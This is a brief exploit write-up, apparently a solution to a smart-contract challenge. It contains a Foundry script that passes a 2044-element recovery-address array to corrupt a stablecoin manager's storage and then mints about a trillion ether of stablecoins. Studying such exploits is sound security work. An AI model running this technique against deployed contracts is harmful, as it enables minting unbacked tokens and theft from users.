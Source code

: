 During testing, I found that just by passing in an array of length 2044 is enough. Did not spend more time investigating what got overwritten.

```solidity
        vm.startBroadcast();
        address[] memory recoveryAddresses = new address[](2044);
        Acct temp = manager.openAccount(
            address(this),
            recoveryAddresses
        );
        manager.mintStablecoins(temp, 1_000_000_000_001 ether, "test");
        vm.stopBroadcast();
```



